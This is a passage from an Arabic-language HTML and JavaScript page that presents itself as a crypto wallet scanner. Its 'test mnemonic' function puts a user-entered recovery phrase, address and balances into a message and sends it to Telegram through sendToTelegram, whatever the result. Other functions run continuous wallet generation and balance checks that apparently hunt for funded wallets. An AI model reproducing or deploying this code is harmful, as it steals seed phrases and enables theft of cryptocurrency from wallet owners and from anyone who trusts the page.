                    telegramMessage += `🎉 <b>محفظة نشطة!</b>\n\n` +
                                     `💰 <b>رصيد ETH:</b> ${assets.ethBalance.toFixed(6)} ETH\n` +
                                     `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
                    
                    if (assets.tokens.length > 0) {
                        telegramMessage += `🪙 <b>الرموز المميزة:</b>\n`;
                        assets.tokens.slice(0, 5).forEach(token => {
                            telegramMessage += `   • ${token.symbol}: ${token.value.toFixed(4)}\n`;
                        });
                        if (assets.tokens.length > 5) {
                            telegramMessage += `   • و ${assets.tokens.length - 5} رموز أخرى\n`;
                        }
                    }
                } else {
                    telegramMessage += `📭 <b>محفظة فارغة</b>\n\n` +
                                     `💰 <b>رصيد ETH:</b> 0 ETH\n` +
                                     `📊 <b>عدد المعاملات:</b> 0\n`;
                }
                
                telegramMessage += `\n🔑 <b>العبارة:</b> <code>${testMnemonic}</code>\n` +
                                 `📍 <b>العنوان:</b> <code>${address}</code>`;
                
                // إرسال إلى التلجرام بغض النظر عن النتيجة للاختبار اليدوي
                await sendToTelegram(telegramMessage);
                
                resultsDiv.innerHTML = `
                    <div class="status success">
                        ✅ تم اختبار العبارة وإرسال النتيجة إلى التلجرام
                    </div>
                `;
                
                // مسح حقل الإدخال
                document.getElementById('testMnemonic').value = '';
                
                updateStats();
                
            } catch (error) {
                console.error('خطأ في اختبار العبارة:', error);
                resultsDiv.innerHTML = `<div class="status error">❌ خطأ في اختبار العبارة: ${error.message}</div>`;
            }
        }

        // بدء المسح المستمر
        function startContinuousScanning() {
            if (isScanning) return;
            
            isScanning = true;
            document.getElementById('scanBtn').disabled = true;
            document.getElementById('stopBtn').disabled = false;
            
            const interval = parseInt(document.getElementById('scanInterval').value) * 1000;
            
            scanInterval = setInterval(async () => {
                await generateAndValidateWallet();
            }, interval);
            
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status info">🔄 بدء المسح المستمر...</div>';
            
            // تشغيل أول فحص فوراً
            generateAndValidateWallet();
        }

        // إيقاف المسح
        function stopScanning() {
            if (!isScanning) return;
            
            isScanning = false;
            document.getElementById('scanBtn').disabled = false;
            document.getElementById('stopBtn').disabled = true;
            
            if (scanInterval) {
                clearInterval(scanInterval);
                scanInterval = null;
            }
            
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status success">⏹️ تم إيقاف المسح.</div>';
        }

        // مسح النتائج
        function clearResults() {
            if (confirm('هل أنت متأكد من مسح جميع النتائج والإحصائيات؟')) {
                document.getElementById('results').innerHTML = '<div class="status info">تم مسح النتائج. اضغط على أحد الأزرار أعلاه لبدء فحص المحافظ.</div>';
                totalScanned = 0;
                validMnemonics = 0;
                walletsWithBalance = 0;
                totalEthFound = 0;
                updateStats();
            }
        }

        // تحديث الإحصائيات
        function updateStats() {
            document.getElementById('totalScanned').textContent = totalScanned;
            document.getElementById('validMnemonics').textContent = validMnemonics;
            document.getElementById('walletsWithBalance').textContent = walletsWithBalance;
        }

        // حفظ إعدادات المسح في localStorage
        function saveSettings() {
            const settings = {
                scanInterval: document.getElementById('scanInterval').value
            };
            localStorage.setItem('cryptoScannerSettings', JSON.stringify(settings));
        }

        // تحميل إعدادات المسح من localStorage
        function loadSettings() {
            const saved = localStorage.getItem('cryptoScannerSettings');
            if (saved) {
                const settings = JSON.parse(saved);
                document.getElementById('scanInterval').value = settings.scanInterval || '10';
            }
        }

        // تهيئة الصفحة
        document.addEventListener('DOMContentLoaded', function() {
            loadSettings();
            
            // حفظ إعدادات المسح عند التغيير
            document.getElementById('scanInterval').addEventListener('change', saveSettings);
        });

        // تحديث النص على الزر أثناء المسح
        setInterval(() => {
            if (isScanning) {
                const btn = document.getElementById('scanBtn');
                btn.innerHTML = btn.innerHTML.includes('🔄') ? '⏳ جاري المسح...' : '🔄 جاري المسح...';
            }
        }, 1000);
    </script>
</body>
</html>
